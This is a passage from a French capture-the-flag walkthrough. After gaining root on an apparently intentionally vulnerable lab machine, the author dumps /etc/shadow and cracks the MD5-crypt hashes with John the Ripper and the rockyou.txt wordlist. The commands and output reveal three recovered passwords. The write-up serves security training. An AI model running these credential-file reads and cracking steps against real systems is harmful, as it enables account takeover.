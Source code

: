 C'est gagné, nous sommes root !

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier ```/etc/shadow```. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil __John The Ripper__ est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
sh-3.2# cat /etc/shadow
cat /etc/shadow
root:$1$Ak2GEFmW$6iOwo7maaMRENjSG/mG.J.:14423:0:99999:7:::
bin:*:14397:0:99999:7:::
daemon:*:14397:0:99999:7:::
adm:*:14397:0:99999:7:::
lp:*:14397:0:99999:7:::
sync:*:14397:0:99999:7:::
--snip--
mysql:!!:14397:0:99999:7:::
pcap:!!:14397:0:99999:7:::
haldaemon:!!:14397:0:99999:7:::
dovecot:!!:14418::::::
john:$1$mWFcMD52$Cnk.XsZ.vxpNIjMcRn8AP0:14419:0:99999:7:::
linda:$1$KDqdFFfU$wNrRtbShFLx5R7I/YWLMR1:14419:0:99999:7:::
fred:$1$jgdM97Rl$.nRcphYfCDGkWe0X7p7p/0:14419:0:99999:7:::
molly:$1$90uKe4zN$Y5pqf0NGx2aVLBxBTXZHh0:14419:0:99999:7:::
toby:$1$2vgQS3Bq$p4Aq.m1RYM3iWopT6Izg51:14419:0:99999:7:::
```

Notre dictionnaire préféré est appelé à la rescousse : rockyou.txt !

```console
root@blinils:~# unshadow passwdCTF6.txt shadowCTF6.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
beckham          (molly)
fred1982         (fred)
squirrel3        (linda)
--snip--
Session completed

root@blinils:~# john db --show
linda:squirrel3:501:501::/home/linda:/bin/bash
fred:fred1982:502:502::/home/fred:/bin/bash
molly:beckham:503:503::/home/molly:/bin/bash

3 password hashes cracked, 3 left
```